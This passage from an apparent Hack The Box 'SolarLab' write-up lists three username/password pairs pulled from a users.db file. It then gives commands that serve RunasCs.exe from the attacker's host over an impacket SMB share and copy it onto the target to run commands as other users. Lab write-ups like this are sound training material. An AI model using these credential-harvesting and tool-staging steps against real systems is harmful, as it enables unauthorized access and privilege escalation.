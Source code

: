 This is interesting. We might need to escalate into openfire user before Administrator.

Looking around **blake**'s home directory, there's a interesting file named **users.db**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/image-24.png)

**users.db** reveals bunch of potential credentials:

| Username    | Password                 |
|-------------|---------------------------|
| alexanderk  | HotP!fireguard           |
| claudias    | 007poiuytrewq            |
| blakeb      | ThisCanB3typedeasily1@   |

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/image-25.png)




### RunasCs.exe

[RunasCs.exe](https://github.com/antonioCoco/RunasCs/releases) helps different users to run commands as the specified user.

Let's upload **RunasCs.exe** to the target using the command `impacket-smbserver share -smb2support $(pwd)` and `copy \\10.10.14.13\share\RunasCs.exe .`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/image-27.png)
